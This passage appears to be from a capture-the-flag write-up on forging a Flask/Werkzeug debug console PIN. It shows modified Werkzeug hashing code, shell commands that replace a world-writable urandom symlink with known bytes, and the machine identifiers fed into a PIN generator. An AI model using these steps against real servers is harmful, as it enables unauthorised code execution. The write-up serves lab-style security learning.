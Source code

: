 I discover that the PIN changed if I restart flask, so there is something wrong

I checked the code of "/usr/local/lib/python3.10/dist-packages/werkzeug/debug/\_\_init\_\_.py" :

```python
...
    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
        open("/var/www/config/urandom", "rb").read(16) # ADDING EXTRA SECURITY TO PREVENT PIN FORGING
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")
...
```

It added a line to include 16 bytes of /var/www/config/urandom to private_bits, the original file does not have that

```
www-data@flask:/var/www/config$ ls -la
total 12
drwxrwxrwx 1 root     root     4096 May 14 05:07 .
drwxr-xr-x 1 root     root     4096 May 13 03:17 ..
lrwxrwxrwx 1 root     root       12 May 13 03:17 urandom -> /dev/urandom
```

Everyone has write access on that directory, so I can delete it and replace it with known data

```
rm urandom
echo "aaaaaaaaaaaaaaaa" > urandom
```

```python
probably_public_bits = [
	'flaskdev',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.10/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'2482665380098',# str(uuid.getnode()),  /sys/class/net/ens33/address 
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'44bf872f03b042bd9a987cbaac829007',
	'aaaaaaaaaaaaaaaa'
]
```

